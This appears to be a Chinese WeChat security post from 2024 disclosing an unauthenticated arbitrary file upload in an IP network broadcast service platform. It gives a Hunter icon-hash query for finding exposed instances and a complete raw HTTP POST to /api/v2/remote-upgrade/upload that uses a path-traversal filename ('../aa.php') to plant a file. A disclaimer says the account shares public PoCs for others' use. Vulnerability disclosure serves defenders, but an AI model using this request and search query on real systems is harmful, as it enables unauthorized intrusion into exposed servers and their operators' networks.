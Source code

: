 #  【新】IP网络广播服务平台任意文件上传漏洞   
原创 小白菜安全  小白菜安全   2024-08-04 21:00  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgxnz3h9W4zxUezdEZiaBGSsPMwDcYyJiaq6oqiaXuW8wdaNQoNDpczOZtg/640?wx_fmt=gif&from=appmsg "")  
  
漏洞描述  
  
  
IP网络广播服务平台  
upload接口存可未授权访问显示任意文件上传。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgxnz3h9W4zxUezdEZiaBGSsPMwDcYyJiaq6oqiaXuW8wdaNQoNDpczOZtg/640?wx_fmt=gif&from=appmsg "")  
  
资产信息  
  
  
hunter=:web.icon=="9091011a03bffd9898d79fc589a2c65d"  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia0LWAibDwFhZibJOC6e1ISNOPpOZlzHwtRLHf7pd5uS2sr5f8iabxO5o3RR6uIYYYrZEju8w51p0tJjQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgxnz3h9W4zxUezdEZiaBGSsPMwDcYyJiaq6oqiaXuW8wdaNQoNDpczOZtg/640?wx_fmt=gif&from=appmsg "")  
  
漏洞复现  
  
  
```
POST /api/v2/remote-upgrade/upload HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----234561
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Length: 149

------234561
Content-Disposition: form-data; name="file"; filename="../aa.php"
Content-Type: application/octet-stream

234561
------234561--

```  
  
回显路径：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia0LWAibDwFhZibJOC6e1ISNOPC5kqFWdhldrO0oJPLfAVvKaURNRdLZibN5ytrm0MuZBN2CZib6g89iblw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgOaSVwdVAPT7DWSKK7pjSWGdbQKWEM0yTB3JSqNxLUnEBesOW8eG40w/640?wx_fmt=png&from=appmsg "")  
  
免责声明  
  
  
该公众号主要是分享互联网上公开的一些漏洞poc和工具，  
利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgAth2WTu4kyEzL1Dia7AXUWcP7tsbHDtpaH1cls1lJTPVNE6XTwLYvJg/640?wx_fmt=gif&from=appmsg "")  
  
  
  
